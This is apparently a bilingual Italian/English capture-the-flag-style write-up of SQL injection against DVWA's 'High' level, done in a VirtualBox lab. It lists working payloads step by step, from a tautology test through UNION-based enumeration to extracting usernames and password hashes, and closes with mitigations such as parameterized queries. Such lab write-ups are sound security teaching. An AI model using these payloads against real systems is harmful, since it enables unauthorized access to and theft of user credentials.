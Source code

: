 
## SQL Injection – Livello High (Italiano)

## Descrizione

Nel livello "High" di DVWA, l'applicazione presenta un'interfaccia composta da una finestra principale e una secondaria.  
Cliccando su un link, si apre la finestra `session-input.php`, dove è possibile inserire un ID utente. Una volta inviato, la risposta viene visualizzata nella pagina principale con nome e cognome.

Sebbene questo livello implementi un apparente controllo più avanzato, la vulnerabilità SQL Injection è comunque presente e sfruttabile.

## Obiettivo

Esfiltrare dati sensibili dal database, in particolare gli `username` e le `password` memorizzati nella tabella `users`.

## Ambiente di test

- DVWA livello: High  
- Esecuzione su VirtualBox  
- Browser: Firefox  
- Strumenti: Burp Suite (Proxy + Repeater), DevTools

---

## Fasi dell'attacco

### 1. Verifica della vulnerabilità

Nella finestra `session-input.php`, è stato inserito il seguente payload:

```sql
' OR 1=1 #
```

✅ Risultato: nella finestra principale vengono mostrati tutti i 5 nomi e cognomi → confermata la vulnerabilità SQL Injection.

---

### 2. Determinazione del numero di colonne

Payload utilizzato:

```sql
' UNION SELECT NULL, NULL #
```

✅ Il payload è accettato senza errore → la query sottostante restituisce **2 colonne visibili**.

---

### 3. Estrazione delle tabelle

Payload utilizzato:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables #
```

✅ Risultato: vengono mostrate tutte le tabelle, tra cui `users`.

---

### 4. Estrazione delle colonne della tabella `users`

Payload utilizzato:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

✅ Risultato: la query restituisce tutte le colonne della tabella `users`, incluse `user` e `password`.

---

### 5. Esfiltrazione dei dati

Payload utilizzato:

```sql
' UNION SELECT user, password FROM users #
```

✅ Risultato: vengono mostrati a schermo tutti gli **username** e le rispettive **password hashate**.

> ⚠️ I dati estratti non sono riportati nel report per motivi etici.

---

## Considerazioni finali

Nonostante il livello "High" implementi una struttura a due finestre e presumibilmente dei filtri lato server, l’applicazione rimane vulnerabile a SQL Injection.

L’attaccante, con sufficiente comprensione delle query e delle strutture SQL, riesce a bypassare i controlli e accedere a dati sensibili.

---

## Mitigazioni consigliate

### Italiano

Per prevenire questa vulnerabilità, si consiglia:

- Utilizzare **query parametrizzate** (prepared statements)
- Evitare di concatenare direttamente input utente nelle query SQL
- Validare e sanificare accuratamente tutti i dati in ingresso
- Limitare i privilegi dell’utente del database
- Implementare un logging delle richieste sospette

---
---

## SQL Injection – High Level (English)

## Description

In the "High" level of DVWA, the application uses a main window and a secondary popup (`session-input.php`) where the user can insert an ID.  
Once submitted, the response is dynamically displayed in the main page, showing first and last name.

Despite the increased complexity, the application remains vulnerable to SQL Injection.

## Objective

Exfiltrate sensitive data from the database, particularly usernames and hashed passwords from the `users` table.

## Test environment

- DVWA level: High  
- Running on VirtualBox  
- Browser: Firefox  
- Tools: Burp Suite (Proxy + Repeater), DevTools

---

## Attack steps

### 1. Testing for SQL Injection

In the popup window, the following payload was submitted:

```sql
' OR 1=1 #
```

✅ Result: all 5 users’ names were displayed → confirms active SQL Injection.

---

### 2. Determining column count

Payload used:

```sql
' UNION SELECT NULL, NULL #
```

✅ No error → the underlying query uses **2 visible columns**.

---

### 3. Extracting table names

Payload used:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables #
```

✅ Result: list of tables displayed, including `users`.

---

### 4. Extracting column names from `users`

Payload used:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

✅ Result: displayed all column names from the `users` table, including `user` and `password`.

---

### 5. Extracting data

Payload used:

```sql
' UNION SELECT user, password FROM users #
```

✅ Result: all usernames and hashed passwords were displayed successfully.

> ⚠️ Extracted data is intentionally omitted for ethical reasons.

---

## Final thoughts

Even with structural changes and assumed sanitization in the High level, SQL Injection remains exploitable.  
An attacker with SQL knowledge can bypass controls and retrieve sensitive data.

---

## Recommended mitigation

### English

To prevent this vulnerability:

- Use **parameterized queries** (prepared statements)  
- Never concatenate user input directly into SQL queries  
- Always validate and sanitize incoming data  
- Limit database user privileges  
- Implement logging and monitoring for suspicious requests

